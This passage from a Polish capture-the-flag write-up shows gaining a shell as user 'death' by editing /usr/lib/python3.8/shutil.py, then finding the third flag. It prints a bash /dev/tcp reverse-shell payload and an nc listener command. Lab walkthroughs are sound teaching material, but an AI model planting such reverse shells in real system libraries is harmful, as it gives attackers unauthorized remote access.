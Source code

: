 Wykorzystajmy to i zróbmy reverse shella edytując plik /usr/lib/python3.8/shutil.py:

```
import os
os.system('bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"')
```

Ustawmy nasłuchiwanie:

```
nc -lvnp [PORT]
```

Po minucie otrzymujemy połączenie i dostęp do konta użytkownika death:

![Morpheus_proof](img/Morpheus_proof.JPG)

W katalogu domowym znajdujemy trzecią flagę:

![Morpheus_flag](img/Morpheus_flag.JPG)

Do zobaczenia na kolejnych CTF-ach!
